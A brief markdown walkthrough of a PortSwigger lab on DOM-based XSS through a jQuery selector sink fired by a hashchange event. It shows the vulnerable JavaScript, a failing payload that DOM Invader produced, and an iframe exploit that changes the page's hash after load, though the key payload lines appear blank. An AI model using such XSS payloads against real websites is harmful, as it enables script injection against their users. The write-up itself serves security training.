

# [DOM XSS: jQuery Selector Sink Using a Hashchange Event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

Vulnerable code:

```javascript
$(window).on('hashchange', function(){
  var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
  if (post) post.get(0).scrollIntoView();
});
```

The intended functionality is that a hash anchor like `/#Favours` will automatically scroll the blog post with that title into view.

DOM Invader identifies the vulnerability. First, put the canary string into the hash:



That should pop under Sinks:


However, clicking "Exploit" will use this URL, which doesn't work:

```text
/#"'>')');%20alert(1);%20//
```

This payload _does_ work,

```text
/#
```

But it only works if you manually type it in, trigger a hash-change event. So, the exploit needs to first render the page in the victim's browser and subsequently change the hash to the payload. This works:

```html
<iframe src="https://LAB_ID.web-security-academy.net/#" onload="this.src+=''" hidden="hidden"></iframe>
```

Modern versions of jQuery have patched this vector by disallowing HTML in selectors when the input begins with `#`.